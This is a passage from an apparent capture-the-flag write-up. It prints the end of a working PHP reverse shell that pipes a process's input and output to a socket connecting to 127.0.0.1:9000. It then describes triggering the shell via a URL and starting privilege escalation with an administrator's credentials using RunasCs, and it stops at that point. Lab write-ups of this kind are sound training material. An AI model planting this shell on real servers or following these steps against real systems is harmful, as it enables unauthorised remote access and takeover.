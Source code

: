 ```bash
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('127.0.0.1', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```
<br/><br/>
We trigger it calling the url
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_15.png' | relative_url }})
<br/><br/>
We got into the system but without any permissions, we already know that tony is the administrator lets try to escalate privileges running a shell with his credentials
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_16.png' | relative_url }})
<br/><br/>
We use RunasCs 
<br/><br/>